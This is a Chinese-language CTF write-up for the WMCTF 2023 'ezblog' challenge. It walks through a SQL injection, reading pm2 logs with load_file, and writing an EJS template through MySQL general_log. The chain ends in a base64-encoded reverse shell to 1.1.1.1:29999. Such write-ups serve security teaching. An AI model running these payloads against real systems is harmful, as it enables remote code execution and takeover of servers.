 # 官方WP
[https://github.com/wm-team/WMCTF-2023](https://github.com/wm-team/WMCTF-2023)<br />[WMCTF 2023_OFFICAL_WRITE-UP_CN.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1692671631506-ce683444-d77f-4edd-b2f0-ce2c4fad0c1a.pdf)
# AnyFileRead
![image.png](./images/20231018_0003018827.png)
# ezblog
### Sql注入点
该接口第5行`!/\d+/igm.test(id)`逻辑有问题，导致能够进行sql注入
```javascript
app.get("/post/:id/edit", async (req, res) => {
  try {
    // parseInt的性能问题 https://dev.to/darkmavis1980/you-should-stop-using-parseint-nbf
    let id = req.params.id;
    if (!/\d+/igm.test(id) || /into|outfile|dumpfile/igm.test(id)) { // 判断 id是否是纯数字
      res.status(400).send(`Error: '${id}' is invalid id`);
      return;
    }
    // id只能为数字，可以安全的转为number，避免parseInt降低性能
    let post = await (0, posts_1.getPostById)(id);
    res.render("edit", {
      post
    });
  }
  catch (e) {
    res.status(500).send(e);
  }
});
```
```http
/post/0 union select 1,2,3/edit
```
### 获取PIN
通过dockerfile，可以看到项目是通过`pm2`开启
```bash
su ezblog -c 'pm2 start main.js && pm2 logs'
```
`pm2`的默认路径如下
```bash
output: '/home/user/.pm2/logs/out.log'
error: '/home/user/.pm2/logs/error.log'
```
通过`load_file`来读取日志中的PIN码
```bash
/post/0 union select 1,(load_file('/home/ezlog/.pm2/logs/out.log')),3/edit
```
从可以控制调试SQL接口来任意执行SQL语句
```javascript
// 调试SQL语句
app.post("/api/debugger/sql/execute", requireAuth, async (req, res) => {
  let sql = req.body.code;
  // 防止恶意sql
  const waf = ['into', 'outfile', 'dumpfile'];
  let filtered = '';
  if (waf.some((w) => { filtered = w; return sql.toLowerCase().includes(w); })) {
    res.json({
      code: 500,
      message: "Hack!!",
      data: `Error: '${filtered}' is not allowed`
    });
    return;
  }
  if (/execute|immediate/igm.test(sql)) {
    res.json({
      code: 500,
      message: "Hack!!",
      data: `Error: 非预期 is fixed`
    });
    return;
  }
  db_1.connection.query(sql, (err, results, fields) => {
    if (err) {
      res.json({
        code: 500,
        message: "Internal Server Error",
        data: err?.message
      });
      return;
    }
    res.json({
      code: 200,
      message: "OK",
      data: results
    });
  });
});
```
### 方法一 general_log写文件
通过`general_log`来写入到ejs模板中，进行SSTI<br />有一个坑点是，数据库中没有`mysql`数据库，会造成`general_log`失败，所以要自己创建一个`mysql`数据库<br />[2023WMCTF ezblog](https://www.yuque.com/dat0u/ctf/qh9i7y75udvza7ix)
```sql
CREATE DATABASE mysql;
CREATE TABLE mysql.general_log(
  event_time timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP,
  user_host mediumtext NOT NULL,
  thread_id int(11) NOT NULL,
  server_id int(10) unsigned NOT NULL,
  command_type varchar(64) NOT NULL,
  argument mediumtext NOT NULL
) ENGINE=CSV DEFAULT CHARSET=utf8 COMMENT='General log';
SET GLOBAL general_log_file='/home/ezblog/views/post.ejs';
SET GLOBAL general_log='on';
SELECT "<% global.process.mainModule.require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzI5OTk5IDA+JjE=}|base64 -d|bash'); %>";
```

